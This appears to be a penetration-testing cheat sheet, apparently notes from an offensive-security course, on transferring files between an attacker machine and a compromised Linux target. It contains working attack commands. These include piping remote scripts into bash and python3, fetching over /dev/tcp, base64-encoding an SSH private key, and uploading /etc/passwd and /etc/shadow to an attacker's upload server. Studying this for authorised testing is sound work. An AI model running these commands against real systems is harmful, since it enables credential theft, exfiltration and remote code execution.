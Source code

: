 # OPEN SERVER:
## PYTHON:
- `python3 -m http.server 1234` local machine

# WGET
- `wget http://10.10.14.1:8000/linenum.sh` target machine
- `curl http://10.10.14.1:8000/linenum.sh -o` linenum.sh

# SCP
- `scp linenum.sh user@remotehost:/tmp/linenum.sh` local machine

# Attack to Target
## Base64 Encoding / Decoding
**Encode SSH Key to Base64**
```bash
$ cat id_rsa |base64 -w 0;echo`
```

**Decode the File**
```bash
$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`
```

**Confirm the MD5 Hashes Match**
```bash
$ md5sum id_rsa
```

## Web Downloads with Wget and cURL
**Download a File Using wget**
```bash
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
```

**Download a File Using cURL**
```bash
$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
```

## Fileless Attacks Using Linux
**Fileless Download with cURL**
```bash
$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
```

**Fileless Download with wget**
```bash
$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`
```
## Download with Bash (/dev/tcp)
**Connect to the Target Webserver**
```bash
$ exec 3<>/dev/tcp/10.10.10.32/80`
```

**HTTP GET Request**
```bash
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
```

**Print the Response**
```bash
$ cat <&3`
```

## SSH Downloads
SSH (or Secure Shell) is a protocol that allows secure access to remote computers. SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol.

SCP (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

SCP is very similar to copy or cp, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

**Enabling the SSH Server**
```bash
$ sudo systemctl enable ssh`
```

**Starting the SSH Server**
```bash
$ sudo systemctl start ssh`
```

**Checking for SSH Listening Port**
```bash
$ netstat -lnpt`
```

**Downloading Files Using SCP**
```bash
$ scp plaintext@192.168.49.128:/root/myroot.txt . `
```

`Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.`

# Target to Attack
## Web Upload
**Attack - Start Web Server**
```bash
$ sudo python3 -m pip install --user uploadserver`
```

**Attack - Create a Self-Signed Certificate**
```bash
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
```

`The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.`

**Attack - Start Web Server**
```bash
$ mkdir https && cd https
$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

**Target - Upload Multiple Files**
```bash
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
**Target - Creating a Web Server with Python3**
```bash
$ python3 -m http.server
```

**Target - Creating a Web Server with Python2.7**
```bash
$ python2.7 -m SimpleHTTPServer
```

**Target - Creating a Web Server with PHP**
```bash
$ php -S 0.0.0.0:8000
```

**Target - Creating a Web Server with Ruby**
```bash
$ ruby -run -ehttpd . -p8000
```

**Download the File from the Target Machine onto the Attack**
```bash
$ wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload
**File Upload using SCP**
```bash
$ scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

```bash
scp -P 3520 usuario@192.168.49.128:/home/usuario/arquivo.txt .
```
